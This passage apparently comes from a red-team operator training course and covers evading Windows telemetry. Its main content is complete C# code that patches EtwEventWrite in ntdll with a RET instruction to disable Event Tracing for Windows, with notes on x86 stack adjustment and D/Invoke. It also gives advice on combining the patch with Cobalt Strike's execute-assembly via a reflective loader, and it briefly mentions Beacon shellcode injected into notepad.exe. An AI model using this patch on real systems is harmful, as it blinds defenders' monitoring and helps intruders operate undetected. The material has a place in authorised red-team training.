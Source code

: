 Prior to loading the assembly, we'd like to locate one of those APIs (let's go with the lower-level EtwEventWrite) and write a `RET` at the beginning.

 ##### A simple RET works fine for x64, but if on x86 you will need to adjust the stack first.

The high level steps are as follows:

-   Get the memory address of ntdll in the current process.
-   Get the memory address of EtwEventWrite from ntdll.
-   Make that region of memory writeable
-   Copy the patch
-   Restore the memory permissions

```cs
// get location of ntdll.dll
var hModule = LoadLibrary("ntdll.dll");
Console.WriteLine("ndtll: 0x{0:X}", hModule.ToInt64());

// find EtwEventWrite
var hfunction = GetProcAddress(hModule, "EtwEventWrite");
Console.WriteLine("EtwEventWrite: 0x{0:X}", hfunction.ToInt64());

var patch = new byte[] { 0xC3 };

// mark as RW
VirtualProtect(hfunction, (UIntPtr)patch.Length, 0x04, out var oldProtect);
Console.WriteLine("Memory: 0x{0:X} -> 0x04", oldProtect);

// write a ret
Marshal.Copy(patch, 0, hfunction, patch.Length);

// restore memory
VirtualProtect(hfunction, (UIntPtr)patch.Length, oldProtect, out _);
Console.WriteLine("Memory: 0x04 -> 0x{0:X}", oldProtect);
```

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/etw/etweventwrite.png)

**LoadLibrary** and **GetProcAddress** are native APIs that you must P/Invoke.  If you want to give it a try with D/Invoke, take a look at `Generic.GetLibraryAddress()`.

Where Cobalt Strike does have an `amsi_disable` directive in Malleable C2, it has no equivalent like "etw_disable".  The most viable way to integrate this style of ETW patching with execute-assembly, is via a user defined reflective loader (discussed in a later module).

# RWX & Cleanup

As we know, memory regions have a protection level.  When writing our process injection applications, we were careful not to allocate memory as RWX.  Instead, we opt for RW and then switch RX.  But Beacon's default reflective loader actually undoes this hard work.

Here we have injected Beacon shellcode into notepad.exe.
